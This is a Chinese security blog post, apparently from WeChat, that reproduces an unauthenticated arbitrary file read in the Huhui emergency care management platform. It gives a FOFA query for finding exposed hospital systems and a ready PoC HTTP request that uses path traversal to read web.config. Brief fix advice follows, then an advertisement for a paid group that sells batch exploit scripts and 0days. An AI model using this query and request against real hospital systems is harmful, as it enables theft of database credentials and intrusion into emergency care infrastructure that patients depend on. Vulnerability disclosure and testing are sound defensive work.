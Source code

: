 #  「漏洞复现」互慧-急诊综合管理平台 ServicePage.aspx 任意文件读取漏洞   
冷漠安全  冷漠安全   2025-01-03 03:08  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/rPMtsalfZ0qRzaH5GUoT3wjfxgNKKQaVgq5UdQuTjibZ7l0YMRTIbMrfABFictia4ZEXKWAic1RbHRib9CiajtbcKQcw/640?wx_fmt=gif&from=appmsg "")  
  
0x01 免责声明  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。工具来自网络，安全性自测，如有侵权请联系删除。本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！！！  
  
0x02  
  
产品介绍  
  
互慧急诊急救快速联动平台，是用于管理门诊急诊病人的系统，主要包括门诊急诊业务和急诊物资管理两部分，其中门诊急诊业务主要包括院前急救、院内抢救、留观监护、绿色通道、预检分诊等；急诊物资管理包括急诊药品管理、急诊设备管理、抢救车管理、急救箱管理、急诊物资使用操作等与患者抢救相关的物资物品，目的在于通过门急诊管理系统缩短抢救患者流程，规范抢救措施，确保急诊物资使用安全，从而最终达到提高抢救成功率，确保患者的生命安全。  
  
0x03  
  
漏洞威胁  
  
互慧-急诊综合管理平台 ServicePage.aspx 接口存在任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等，导致网站处于极度不安全状态。  
  
0x04  
  
漏洞环境  
  
FOFA:  
   
```
body="/emis_lib/js/ThreeExtras.js"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rPMtsalfZ0ovnUS8z2cARKWGA8vib8biaeibCtNOpbeYR9IpGliagc3v6hBXVjDoCF7Yicicopmibc7naK6ssX1Yf1XHw/640?wx_fmt=png&from=appmsg "")  
  
  
0x05  
  
漏洞复现  
  
PoC  
```
GET /dcwriter/thirdpart/ServicePage.aspx?wasmres=./../web.config HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rPMtsalfZ0ovnUS8z2cARKWGA8vib8biaeIZEdrRHOe2QTGc97dBAUSqFy43IDXO8Lkrw9FTu0DFPLL07WI3bbDQ/640?wx_fmt=png&from=appmsg "")  
  
0x06  
  
批量脚本验证  
  
Nuclei验证脚本已发布  
  
知识星球：冷漠安全  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rPMtsalfZ0ovnUS8z2cARKWGA8vib8biae2169PybPicP3Y98lJIRxcpO8QFVrzsgWc0bRS8wDjPckQJ2Wd6DOIeQ/640?wx_fmt=png&from=appmsg "")  
  
  
0x07  
  
修复建议  
  
关闭互联网暴露面或接口设置访问权限  
  
升级至安全版本  
  
0x08  
  
加入我们  
  
漏洞详情及批量检测POC工具请前往知识星球获取  
  
知识星球：冷漠安全  
  
交个朋友，限时优惠券：加入立减25  
  
星球福利：每天更新最新漏洞POC、资料文献、内部工具等  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rPMtsalfZ0ovnUS8z2cARKWGA8vib8biaeudAIicHMUnBoJB8BBcqRe7Ugicgl1nbib25e9BBYgoKuq1nxMoicNYIqibw/640?wx_fmt=png&from=appmsg "")  
  
  
「星球介绍」：  
  
本星球不割韭菜，不发烂大街东西。欢迎进来白嫖，不满意三天退款。  
  
本星球坚持每天分享一些攻防知识，包括攻防技术、网络安全漏洞预警脚本、网络安全渗透测试工具、解决方案、安全运营、安全体系、安全培训和安全标准等文库。  
  
本星主已加入几十余个付费星球，定期汇聚高质量资料及工具进行星球分享。  
  
  
「星球服务」：  
  
  
加入星球，你会获得：  
  
  
♦ 批量验证漏洞POC脚本  
  
  
♦ 0day、1day分享  
  
  
♦ 汇集其它付费星球资源分享  
  
  
♦ 大量的红蓝对抗实战资源  
  
  
♦ 优秀的内部红蓝工具及插件  
  
  
♦ 综合类别优秀Wiki文库及漏洞库  
  
  
♦ 提问及技术交流  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/rPMtsalfZ0ovnUS8z2cARKWGA8vib8biae3E9xeQQxOPymZ7bK2DcBUqAvJHXb7FRRrcLzA4enFwB7j70OooUhfA/640?wx_fmt=gif&from=appmsg "")  
  
  
